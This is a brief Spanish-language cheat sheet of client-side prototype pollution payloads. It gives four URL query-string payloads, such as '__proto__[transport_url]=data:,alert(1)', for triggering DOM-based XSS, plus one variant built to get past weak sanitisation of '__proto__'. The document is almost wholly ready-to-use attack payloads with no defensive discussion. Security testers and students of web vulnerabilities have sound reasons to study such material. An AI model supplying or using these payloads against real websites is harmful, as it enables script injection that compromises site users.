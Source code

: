 ```yaml
---

### 💥 **Prototype Pollution Cheat Sheet** 💥

---
```

---
### **1. Prototype pollution en el lado cliente usando APIs del navegador**
```http
https://site.com/?__proto__[value]=data:,alert(1)
```

### **2. XSS en el DOM por prototype pollution en cliente**

```http
https://site.com/?__proto__[transport_url]=data:,alert(1)
```

### **3. XSS en el DOM con vector alternativo de pollution**

```http
https://site.com/?__proto__.sequence=alert(1)-
```

### **4. Prototype pollution en cliente por mala sanitización**

```http
https://site.com/?__pro__proto__to__[value]=kike123

```